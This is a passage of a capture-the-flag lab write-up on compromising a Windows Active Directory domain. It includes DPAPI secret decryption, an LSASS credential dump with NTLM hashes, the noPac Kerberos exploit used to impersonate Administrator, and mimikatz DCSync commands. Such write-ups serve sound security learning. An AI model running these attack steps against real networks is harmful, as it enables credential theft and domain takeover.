










Now that we have Jay's credentials let's try to login via WINRM:



We are in as supposed! Now surfing around we are already part of Domain Admins as someone added Jay via a Scheduled task which means we can read the last flag in Administrator folder:



```Bash
*Evil-WinRM* PS C:\Users\Administrator\Documents> cat flag.txt
CONTEXT{OU_4bl3_t0_k33p_4_s3cret?}
```

Now since someone did the job to let us become admins, we still have to find the second last flag.

Looking around is not into Andy's home folder so back a bit we know from the last flag we found that we got the credentials for JAY and this mean that the flag we want to find must be as we are Jay, so looking around I found some possible lefovers from DPAPI secrets into Jay home folder:

```Bash
*Evil-WinRM* PS C:\Users\jay.teignton\appdata\local\microsoft\Credentials> ls -hidden


    Directory: C:\Users\jay.teignton\appdata\local\microsoft\Credentials


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a-hs-       10/12/2020   7:12 PM          11068 DFBE70A7E5CC19A398EBF1B96859CE5D
```

So first we unset the hidden flag and download the secret locally:

```Bash
*Evil-WinRM* PS C:\Users\jay.teignton\appdata\local\microsoft\Credentials> ls -hidden


    Directory: C:\Users\jay.teignton\appdata\local\microsoft\Credentials


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a-hs-       10/12/2020   7:12 PM          11068 DFBE70A7E5CC19A398EBF1B96859CE5D

*Evil-WinRM* PS C:\Users\jay.teignton\appdata\local\microsoft\Credentials> attrib -s -h  *
*Evil-WinRM* PS C:\Users\jay.teignton\appdata\local\microsoft\Credentials> ls


    Directory: C:\Users\jay.teignton\appdata\local\microsoft\Credentials


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       10/12/2020   7:12 PM          11068 DFBE70A7E5CC19A398EBF1B96859CE5D


*Evil-WinRM* PS C:\Users\jay.teignton\appdata\local\microsoft\Credentials> download DFBE70A7E5CC19A398EBF1B96859CE5D
                                        
Info: Downloading C:\Users\jay.teignton\appdata\local\microsoft\Credentials\DFBE70A7E5CC19A398EBF1B96859CE5D to DFBE70A7E5CC19A398EBF1B96859CE5D
```

Then we do the same for the master key:

```Bash
Evil-WinRM* PS C:\Users\jay.teignton\appdata\roaming\microsoft\Protect\S-1-5-21-3174020193-2022906219-3623556448-1103> attrib -s -h *
*Evil-WinRM* PS C:\Users\jay.teignton\appdata\roaming\microsoft\Protect\S-1-5-21-3174020193-2022906219-3623556448-1103> s
The term 's' is not recognized as the name of a cmdlet, function, script file, or operable program. Check the spelling of the name, or if a path was included, verify that the path is correct and try again.
At line:1 char:1
+ s
+ ~
    + CategoryInfo          : ObjectNotFound: (s:String) [], CommandNotFoundException
    + FullyQualifiedErrorId : CommandNotFoundException
*Evil-WinRM* PS C:\Users\jay.teignton\appdata\roaming\microsoft\Protect\S-1-5-21-3174020193-2022906219-3623556448-1103> s
The term 's' is not recognized as the name of a cmdlet, function, script file, or operable program. Check the spelling of the name, or if a path was included, verify that the path is correct and try again.
At line:1 char:1
+ s
+ ~
    + CategoryInfo          : ObjectNotFound: (s:String) [], CommandNotFoundException
    + FullyQualifiedErrorId : CommandNotFoundException
*Evil-WinRM* PS C:\Users\jay.teignton\appdata\roaming\microsoft\Protect\S-1-5-21-3174020193-2022906219-3623556448-1103> ls


    Directory: C:\Users\jay.teignton\appdata\roaming\microsoft\Protect\S-1-5-21-3174020193-2022906219-3623556448-1103


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       10/12/2020   5:34 PM            740 3d8c8cd5-0f9d-42f3-9c69-422f6438cfb7
-a----       10/12/2020   5:34 PM            908 BK-TEIGNTON
-a----        7/31/2023   1:44 PM            740 ca1918d5-08e5-4076-84f0-7ff296da07d8
-a----        7/31/2023   1:44 PM             24 Preferred
```

next we get the SIDS:

```Bash
*Evil-WinRM* PS C:\Users\jay.teignton\appdata\roaming\microsoft\Protect\S-1-5-21-3174020193-2022906219-3623556448-1103> get-localuser | Select name,sid

Name                 SID
----                 ---
Administrator        S-1-5-21-3174020193-2022906219-3623556448-500
Guest                S-1-5-21-3174020193-2022906219-3623556448-501
krbtgt               S-1-5-21-3174020193-2022906219-3623556448-502
jay.teignton         S-1-5-21-3174020193-2022906219-3623556448-1103
andy.teignton        S-1-5-21-3174020193-2022906219-3623556448-1104
karl.memaybe         S-1-5-21-3174020193-2022906219-3623556448-1105
abbie.buckfast       S-1-5-21-3174020193-2022906219-3623556448-1106
web_user             S-1-5-21-3174020193-2022906219-3623556448-1107
```

Let's find which Master key is associated with the secret(DFBE70A7E5CC19A398EBF1B96859CE5D):



Good now that we know that the master key used to encrypt the secret in Windows vault is (3D8C8CD5-0F9D-42F3-9C69-422F6438CFB7) now we can decrypt the master key:

```Bash
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/CONTEXT]
└─# impacket-dpapi masterkey -file 3d8c8cd5-0f9d-42f3-9c69-422f6438cfb7 -password 'D0ntL0seSk3l3tonK3y!' -sid 'S-1-5-21-3174020193-2022906219-3623556448-1103'                               
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[MASTERKEYFILE]
Version     :        2 (2)
Guid        : 3d8c8cd5-0f9d-42f3-9c69-422f6438cfb7
Flags       :        0 (0)
Policy      :        0 (0)
MasterKeyLen: 00000088 (136)
BackupKeyLen: 00000068 (104)
CredHistLen : 00000000 (0)
DomainKeyLen: 00000174 (372)

Decrypted key with User Key (MD4 protected)
Decrypted key: 0xc2503163ba44a9cbd516f1b37c9c0165fe63a7a717c04d7795ebf092c60d207b61020046aedc7827e2b12f24bc88b6658c678601a8267cf499cb826856210f71
```

Now the result of the "decrypted" have to be used to decrypt the Secret:

```Bash
└─# impacket-dpapi credential -file DFBE70A7E5CC19A398EBF1B96859CE5D -key "0xc2503163ba44a9cbd516f1b37c9c0165fe63a7a717c04d7795ebf092c60d207b61020046aedc7827e2b12f24bc88b6658c678601a82
7cf499cb826856210f71"edential -file DFBE70A7E5CC19A398EBF1B96859CE5D -key "0xc2503163ba44a9cbd516f1b37c9c0165fe63a7a717c04d7795ebf092c60d207b61020046aedc7827e2b12f24bc88b6658c678601a8267
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[CREDENTIAL]
LastWritten : 2020-10-12 18:12:45
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000002 (CRED_PERSIST_LOCAL_MACHINE)
Type        : 0x00000001 (CRED_TYPE_GENERIC)
Target      : WindowsLive:target=virtualapp/didlogical
Description : PersistedCredential
Unknown     : 
Username    : 02foojnmdfmpneek
Unknown     : 

KeyWord : Microsoft_WindowsLive:authstate:0
Data    :
```

Ok we have some credentials from a Virtual app.

But with mimikatz we can dump the LSASS and get andys credentials:

```Bash
msv :
         [00000003] Primary
         * Username : andy.teignton
         * Domain   : TEIGNTON
         * NTLM     : a46ae6d26da0d41a5da384e103336019
         * SHA1     : 8e7189951581724670404969dd113f0602c5492f
         * DPAPI    : fdccc566f7b46ef7f11909ace406ccc8
        tspkg :
        wdigest :
         * Username : andy.teignton
         * Domain   : TEIGNTON
         * Password : (null)
        kerberos :
         * Username : andy.teignton
         * Domain   : TEIGNTON.HTB
         * Password : (null)
        ssp :
        credman :
```

* * *

## The next day...

The next day the Environment have been reset and as I expected Jay is no longer Domain Admin which means we are into machine via PS-Remote but we can't perform a DCSync.

We still can see these exploits suggested:

```Bash
============================

 #   Name                                                           Potentially Vulnerable?  Check Result
 -   ----                                                           -----------------------  ------------
 1   exploit/windows/local/bypassuac_dotnet_profiler                Yes                      The target appears to be vulnerable.
 2   exploit/windows/local/bypassuac_sdclt                          Yes                      The target appears to be vulnerable.
 3   exploit/windows/local/bypassuac_sluihijack                     Yes                      The target appears to be vulnerable.
 4   exploit/windows/local/cve_2020_1048_printerdemon               Yes                      The target appears to be vulnerable.
 5   exploit/windows/local/cve_2020_1337_printerdemon               Yes                      The target appears to be vulnerable.
 6   exploit/windows/local/cve_2022_21882_win32k                    Yes                      The target appears to be vulnerable.
 7   exploit/windows/local/cve_2022_21999_spoolfool_privesc         Yes                      The target appears to be vulnerable.
 8   exploit/windows/local/ms16_032_secondary_logon_handle_privesc  Yes                      The service is running, but could not be validated.
```

Then running Bloodhound again shows that Jay's user have some GenericAll, PasswordChange,AddLink permissions on several groups:



Now drilling down the permissions:

- AddKeyCredentialLink this is supposed to let us invoke a Shadow Credentials link attack type with tools like Whysker. Basically this means we can get full controll over Key Admins/enterprise
- ForceChangePassword well we know what it means,  over Exchange Windows Permission group that manages directly the AD objects from Exchange (reference: https://adsecurity.org/?p=4119)
- GenericAll on Account operator group which basically gives us full access

Let's check what this group does?

```Bash
*Evil-WinRM* PS C:\tmp> Get-NetGroup -Identity "Account Operators"


usncreated             : 12363
admincount             : 1
iscriticalsystemobject : True
grouptype              : CREATED_BY_SYSTEM, DOMAIN_LOCAL_SCOPE, SECURITY
samaccountname         : Account Operators
whenchanged            : 6/2/2022 11:12:46 AM
objectsid              : S-1-5-32-548
objectclass            : {top, group}
cn                     : Account Operators
usnchanged             : 77706
dscorepropagationdata  : {6/2/2022 11:12:46 AM, 6/2/2022 10:38:34 AM, 6/2/2022 10:38:33 AM, 10/12/2020 10:29:55 PM...}
name                   : Account Operators
description            : Members can administer domain user and group accounts
distinguishedname      : CN=Account Operators,CN=Builtin,DC=TEIGNTON,DC=HTB
samaccounttype         : ALIAS_OBJECT
systemflags            : -1946157056
whencreated            : 10/12/2020 2:26:04 PM
instancetype           : 4
objectguid             : 3bca3635-573a-46c1-aaa2-7b67062219b9
objectcategory         : CN=Group,CN=Schema,CN=Configuration,DC=TEIGNTON,DC=HTB
```

Ok from Description field it can administer user/admin/groups, seems promising. Let's check who is part of this group right now:


Ok no one!

So let's check what permissions have this group then? Seems like I can't do Jackshit!

Back to basics, so now I will try to run Winpeas as Jay and report only interesting infos:

```Bash
Checking PS history file                                                                                                                                                                                                                                     
 Volume in drive C has no label.                                                                                                                                                                                                                             
 Volume Serial Number is 72F4-7039                                                                                                                                                                                                                           
                                                                                                                                                                                                                                                             
 Directory of C:\Users\jay.teignton\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine                                                                                                                                                                  
                                                                                                                                                                                                                                                             
31/07/2023  12:28             3,354 ConsoleHost_history.txt

ÉÍÍÍÍÍÍÍÍÍ͹ Enumerating Named Pipes
  Name                                                                                                 CurrentUserPerms                                                       Sddl

  eventlog                                                                                             Everyone [WriteData/CreateFiles]                                       O:LSG:LSD:P(A;;0x12019b;;;WD)(A;;CC;;;OW)(A;;0x12008f;;;S-1-5-80-880578595-1860270145-482643319-2788375705-1540778122)

  MSSQL$CLIENTS\sql\query                                                                              Everyone [WriteData/CreateFiles]                                       O:S-1-5-80-874810349-2129681760-62300826-3855137535-1136438613G:S-1-5-80-874810349-2129681760-62300826-3855137535-1136438613D:(A;;0x12019b;;;WD)(A;;LC;;;S-1-5-80-874810349-2129681760-62300826-3855137535-1136438613)

  MSSQL$WEBDB\sql\query                                                                                Everyone [WriteData/CreateFiles]                                       O:S-1-5-80-467576754-2944119384-3962957815-417515778-3331045970G:S-1-5-80-467576754-2944119384-3962957815-417515778-3331045970D:(A;;0x12019b;;;WD)(A;;LC;;;S-1-5-80-467576754-2944119384-3962957815-417515778-3331045970)

  ROUTER                                                                                               Everyone [WriteData/CreateFiles]                                       O:SYG:SYD:P(A;;0x12019b;;;WD)(A;;0x12019b;;;AN)(A;;FA;;;SY)

  SQLLocal\CLIENTS                                                                                     Everyone [WriteData/CreateFiles]                                       O:S-1-5-80-874810349-2129681760-62300826-3855137535-1136438613G:S-1-5-80-874810349-2129681760-62300826-3855137535-1136438613D:(A;;0x12019b;;;WD)(A;;LC;;;S-1-5-80-874810349-2129681760-62300826-3855137535-1136438613)

  SQLLocal\WEBDB                                                                                       Everyone [WriteData/CreateFiles]                                       O:S-1-5-80-467576754-2944119384-3962957815-417515778-3331045970G:S-1-5-80-467576754-2944119384-3962957815-417515778-3331045970D:(A;;0x12019b;;;WD)(A;;LC;;;S-1-5-80-467576754-2944119384-3962957815-417515778-3331045970)

  vgauth-service                                                                                       Everyone [WriteData/CreateFiles]                                       O:BAG:SYD:P(A;;0x12019f;;;WD)(A;;FA;;;SY)(A;;FA;;;BA)
  
  
    WindowsService(WindowsService)[C:\Users\jay.teignton\Documents\WindowsService.exe] - Autoload - isDotNet
    File Permissions: jay.teignton [AllAccess]
    Possible DLL Hijacking in binary folder: C:\Users\jay.teignton\Documents (jay.teignton [AllAccess])
```

Nothing much it fails for permissions, so I decided instead to check the Powershell history and I found traces of PSDrives:

```Bash
*Evil-WinRM* PS C:\Users\jay.teignton\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine> Get-PSDrive

Name           Used (GB)     Free (GB) Provider      Root                                                                                                                                                                                 CurrentLocation
----           ---------     --------- --------      ----                                                                                                                                                                                 ---------------
Alias                                  Alias

C                                      FileSystem    C:\                                                                                                                       Users\jay.teignton\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine
Cert                                   Certificate   \
Env                                    Environment
Function                               Function
HKCU                                   Registry      HKEY_CURRENT_USER
HKLM                                   Registry      HKEY_LOCAL_MACHINE
Variable                               Variable
WSMan                                  WSMan
```

Now going back to Bloodhound Jay indeed have no permissions to do anything in AD, that's why my only guessing is if DC is vulnerable to noPAC:

https://4sysops.com/archives/exploiting-the-cve-2021-42278-samaccountname-spoofing-and-cve-2021-42287-deceiving-the-kdc-active-directory-vulnerabilities/

To test we need to check first if we can add a machine to AD(from whoami /priv Jay should be able) and looking around seems like there is a WIndows variant of the NoPAC script: https://github.com/cube0x0/noPac

- Let's check if we can grab a TGT from the DC(if yes then it's vunerable):

```Bash
*Evil-WinRM* PS C:\tmp> ./noPac.exe scan -domain teignton.htb -user jay.teignton -pass 'D0ntL0seSk3l3tonK3y!'
[+] Got TGT from WEB.TEIGNTON.HTB. Ticket size: 537
```

- Nice it's vulnerable, this mean we can impersonate and exploit the script:

```Bash
*Evil-WinRM* PS C:\tmp> ./noPac.exe -domain teignton.htb -user jay.teignton -pass 'D0ntL0seSk3l3tonK3y!' /dc WEB /mAccount yovecio /mPassword Coglione1! /service cifs /ptt
[+] Distinguished Name = CN=yovecio,CN=Computers,DC=teignton,DC=htb

[!] Machine account yovecio already exists
System.DirectoryServices.Protocols.DirectoryOperationException: The object exists.
   at System.DirectoryServices.Protocols.LdapConnection.ConstructResponse(Int32 messageId, LdapOperation operation, ResultAll resultType, TimeSpan requestTimeOut, Boolean exceptionOnTimeOut)
   at System.DirectoryServices.Protocols.LdapConnection.SendRequest(DirectoryRequest request, TimeSpan requestTimeout)
   at noPac.Program.NewMachineAccount(String container, String distinguishedName, String domain, String domainController, String machineAccount, String machinePassword, Boolean verbose, Boolean random, NetworkCredential credential)
[+] Machine account yovecio attribute serviceprincipalname cleared
[+] Machine account yovecio attribute samaccountname updated
[+] Got TGT for WEB
[+] Machine account yovecio attribute samaccountname updated
[*] Action: S4U

[*] Using domain controller: WEB (fe80::8171:8dc8:bfcd:45e%12)
[*] Building S4U2self request for: 'WEB@TEIGNTON.HTB'
[*] Sending S4U2self request
[+] S4U2self success!
[*] Substituting alternative service name 'cifs/WEB'
[*] Got a TGS for 'administrator' to 'cifs@TEIGNTON.HTB'
[*] base64(ticket.kirbi):

      doIFhjCCBYKgAwIBBaEDAgEWooIEkTCCBI1hggSJMIIEhaADAgEFoQ4bDFRFSUdOVE9OLkhUQqIWMBSgAwIBAaENMAsbBGNpZnMbA1dFQqOCBFQwggRQoAMCARKhAwIBBaKCBEIEggQ+2dC492mFQtCdHaemgpM15x6rsajZa6muFt7O0oeGwqp8bxwpYzXIZhQkdNdDBz9piWNXXAQIKjBorKUsbZmIYXyfveNmpC0s9CFIaeXBxLou4lRwO/hAoRReO24MLgWZ7G4bFFfZSbvRQ/IVp6TQteiM/DBUtCfoOIjSLpvVgcS4jnpOKIJyKJLRUCU9NvUQved7GNzdm9cwsmF6cXsIafgT4Ha7kB0/zZ5Q/CLHmjUlncJHOEzy0Tat6eS96RXxH3cC0ahDsvty4M9xyOAUYzZh8/9l6yc3VUBJ8Zh2AmI33nMYrwRfWnSqwOviqpbhhLhtNd6BWfznEroTtPwqRyuPL0W9LekivlC7xlbFwnYaBrNk/ldh0pJCfkmy71CgRRyi9JAOnW9HfVhxMKgjBSpKgK4ljlbvvalzlXGln795xFFGsNshcFIyjXI1Maeom1YjRioZ06heanEQSbPVwcv7ehORJ0pyu0+w73fVJ2A0BF3Lf1Q9KmIy1TIYoYe9ecPK5H/rldBlMyPJWJAIskDrRoL1oRtdnWNRoTMclHKwGlcs4vaWIFJsR4JjYw15mFO0ok9BavLnKvXCq2SY2PihhmELEQws2M8g23MRMovWjos72A/+YrjtXTzOLieKER3KHhQDV+SHhBQYhmFYko0+/ivGT9Es4WvJV4wLzxgYlceEeviycwS0cMp+9W9l0M7UWts+Sg5gYkiB2e3lRYnWsKEiqqo4rxyDJ9e+PUZVOxtp2B3xoE5zOkiXhtUJJ38zr5Og1NrXeI22uNzE6EhdtYy+5kRNXvQgc3kdS1dsTYL7aQN6CiPX5ObIywC5Uk4ZC38hO2nk96tTi0RpUaNGzvhqG8oELcBsMuy47ciFssERz4RbGsVcvx17Bd2EPV/YpCeFKLgp02Ne6rjNtF/eUETlOwa6VrDPSojPmQXWvndSIX4x6CBaBTgUqne8gAKRVZYtQlFPBqRy2arXMf6iDib0hQjdfUMY8jMcgPMvuDnRbXBYe5oWfF5RCJbLFcLYnvk4lY37mbdDLftnS4kBopUYJXhxZjMmPumLTnY8U2SoczyBPMrmoDHJe8iWOzY6a7QGB1LtTT+FsLpCRpVprGTYtEL+HsJxU+857xquEcHqiUt32F72H6swdxF8Y6w2NgMUvd/nmMkQlrr2AXq88hgDnPjuKQ6aC8XnozsC99uavTjbBw7Xx4NK9bF3g+YgvCn0F2yuoqu4UPhj5vFedrfhYsMDyR4cgMDQRiWg9sgmz/bad8JG7gvn8to2TGCWQ2EBs28uV3KVDDrCh0I6d8KauFOMjrkksKuCVDBCgVm/aewzmGvSTZ6XT/XgtaXJz3f7trtVAYPUOTvRrLSJ1OJEmhotnTZx5sja3UVP5UFHv05ErZGjCUXjimEIJi3YZS1oJBUkeF2qwvBDLXC4dvJCfgvFUuGWyYEyo4HgMIHdoAMCAQCigdUEgdJ9gc8wgcyggckwgcYwgcOgKzApoAMCARKhIgQgsXsiuWsSGwehYotn1+vU0XSKWO/k+d8OSAzJMAfbNGehDhsMVEVJR05UT04uSFRCohowGKADAgEKoREwDxsNYWRtaW5pc3RyYXRvcqMHAwUAAKUAAKURGA8yMDIzMDgwMTE0MjE0NFqmERgPMjAyMzA4MDIwMDIxNDRapxEYDzIwMjMwODA4MTQyMTQ0WqgOGwxURUlHTlRPTi5IVEKpFjAUoAMCAQGhDTALGwRjaWZzGwNXRUI=

[+] Ticket successfully imported!
```

- Good again it worked! Now we can check with klist for kerberos tickets:



But it's not working!

* * *

## Back again...

Going back to Jays Documents folder I found a strage executable that at the beginning I thought it was a leftover Revshell from another user but it was instead somethign we were supposed to touch:



Downloading the exe locally and reversing it with Codemerx Decompiler shows that this mifght be some kind of Revshell that:

- There is some kind of Impersonation going on



- We can see that it works on local IP and port 7743



Now we can extract the Flag from TCPServer.cs:



And writing a simple Console Program that converts a Byte array into a Convertional String:

```C#
// See https://aka.ms/new-console-template for more information
byte[] Flag = new byte[] { 67, 79, 78, 84, 69, 88, 84, 123, 108, 48, 108, 95, 115, 48, 99, 51, 116, 115, 95, 52, 114, 101, 95, 102, 117, 110, 125 };
string s = System.Text.Encoding.UTF8.GetString(Flag,0,Flag.Length);
Console.WriteLine(s);
```



```Bash
CONTEXT{l0l_s0c3ts_4re_fun}

C:\Users\AleksandarMilosavlje\source\repos\Test\Test\bin\Debug\net6.0\Test.exe (process 12624) exited with code 0.
To automatically close the console when debugging stops, enable Tools->Options->Debugging->Automatically close the console when debugging stops.
Press any key to close this window . . .
```

* * *

## Long story short

The machine have been pwned!

I can't reproduce the final escalation path no more untill the machine gets resetted cause I already added 10 machines to AD so I can't use NoPac exploit anymore as Jay.

What I tried yesterday was right but I should have used /service ldaps and /impersonate Administrator at the end, and then lastly it would have worked to perform a DCSync:

```Bash
./noPac.exe scan -domain TEIGNTON.HTB -user "jay.teignton" -pass "D0ntL0seSk3l3tonK3y!"
noPac.exe -domain TEIGNTON.HTB -user "jay.teignton" -pass "D0ntL0seSk3l3tonK3y!" /dc web /mAccount yovecio /mPassword Coglione1 /service ldaps /ptt /impersonate Administrator
(mimikatz) lsadump::dcsync /domain:TEIGNTON.HTB /all
```